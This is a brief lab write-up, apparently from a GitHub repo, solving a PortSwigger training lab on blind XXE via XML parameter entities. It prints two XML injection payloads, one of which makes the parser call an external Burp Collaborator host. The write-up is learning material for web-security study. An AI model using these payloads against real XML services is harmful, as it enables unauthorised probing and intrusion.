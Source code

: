 # Lab: Blind XXE with out-of-band interaction via XML parameter entities

**Link**: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities

**Solution**:

Like previous lab, but it prevent to call these `Entities` inside xml

<p align="center" width="100%">
  <img src="image1.png" width="800" hight="500"/>
</p>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY test SYSTEM "http://jpcqdakp0a8wgyp718gtwgv07rdi1bp0.oastify.com" >
]>
<stockCheck>
	<productId>&test;</productId> // didn't work if you call it here
	<storeId>1</storeId> 
</stockCheck>
```

so you can call it inside the DOCTYPE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % test SYSTEM "http://jpcqdakp0a8wgyp718gtwgv07rdi1bp0.oastify.com" >
%test;
]>
<stockCheck>
	<productId>3</productId>
	<storeId>1</storeId> 
</stockCheck>
```

<p align="center" width="100%">
  <img src="image1.png" width="800" hight="500"/>
</p>

<p align="center" width="100%">
  <img src="image2.png" width="800" hight="500"/>
</p>

